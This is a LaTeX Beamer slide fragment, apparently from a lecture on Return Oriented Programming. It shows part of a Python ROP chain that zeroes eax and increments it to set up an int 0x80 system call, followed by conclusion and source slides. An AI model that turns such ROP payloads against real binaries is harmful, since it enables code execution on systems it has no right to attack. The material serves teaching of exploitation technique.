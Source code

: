 \documentclass[11pt]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Generating the payload, init params, syscall}
    \begin{lstlisting}[style=code, language=python]
p += str(pack\('<I', 0x080506c0) # xor eax, eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08082a9e) # inc eax ; ret
p += str(pack\('<I', 0x08049b2a) # int 0x80
print p
    \end{lstlisting}
\end{frame}
\section{Conclusion}
\begin{frame}
    \frametitle{Conclusion}
    \begin{itemize}
        \item Return Oriented Programming is a very powerful technique
        \item It is able to execute any system call if there are enough rop gadgets
        \item There are many tools to simplify the process of finding ROP gadgets and generatating ROP payloads
        \item Modern desktops use aslr and other protection mechanisms $\rightarrow$ practically impossible to use ROP
    \end{itemize}
\end{frame}

\section*{Sources}
\begin{frame}
    \frametitle{Sources}
    \url{https://trustfoundry.net/basic-rop-techniques-and-tricks/}
    \url{http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf}
    \url{https://www.proggen.org/doku.php?id=security:memory-corruption:exploitation:rop}
    \url{https://shell-storm.org/talks/ROP_course_lecture_jonathan_salwan_2014.pdf}
\end{frame}
\end{document}
